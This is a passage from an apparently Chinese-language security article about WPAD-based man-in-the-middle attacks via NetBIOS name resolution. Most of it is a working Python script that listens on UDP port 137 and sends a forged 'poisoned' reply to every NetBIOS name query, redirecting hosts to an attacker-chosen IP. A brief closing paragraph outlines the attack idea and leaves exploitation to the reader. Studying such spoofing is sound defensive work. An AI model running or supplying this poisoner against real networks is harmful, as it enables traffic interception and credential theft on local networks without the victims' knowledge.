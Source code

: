 ```
        "NAME"             # Name   
        "\x00"             # NameNull
        "\x00\x20"         # Query Type:NB
        "\x00\x01"         # Class
        "\x00\x00\x00\xa5" # TTL
        "\x00\x06"         #
        "\x00\x00"         # Null
        "IPADDR")          # IP Address

    def init_socket(self):
        self.HOST = "0.0.0.0"
        self.PORT = 137
        self.nas.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.nas.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 255)

    def decode_name(self, nbname):
        """Return the NetBIOS first-level decoded nbname."""
        if len(nbname) != 32:
            return nbname
        l = []
        for i in range(0, 32, 2):
            l.append(chr(((ord(nbname[i]) - 0x41) << 4) |
                         ((ord(nbname[i+1]) - 0x41) & 0xf)))
        return ''.join(l).split('\x00', 1)[0]

    def Answser(self):
        self.nas.bind((self.HOST, self.PORT))
        print "Listening..."
        while 1:
            data, addr = self.nas.recvfrom(1024)
            tid  = data[0:2]           
            name = data[13:45]
            data = self.AnswerData.replace('TID', tid)
            data = data.replace('NAME', name)
            data = data.replace('IPADDR', socket.inet_aton(self.IPADDR))
            print "Poisoned answer(%s) sent to %s for name %s " % (self.IPADDR, addr[0], self.decode_name(name))
            self.nas.sendto(data, addr)
        self.nas.close()

if __name__ == "__main__":
    nbns = NBNS_Answer("11.22.33.44")
    nbns.Answser()

```

### 利用 NetBIOS 名称解析进行基于 WPAD 的中间人攻击思路解析

通过上面一系列针对 WPAD 原理和 NetBIOS 协议的阐述，理解利用 NetBIOS 名称解析进行基于 WPAD 的中间人攻击的思路就不难了，不过利用思路将不会再像 文2 那样详述。因为我认为，只要理解了攻击思路，如何利用就是一个“方法论”的问题了，具体情况具体分析，各位大牛完全可以自由发挥。
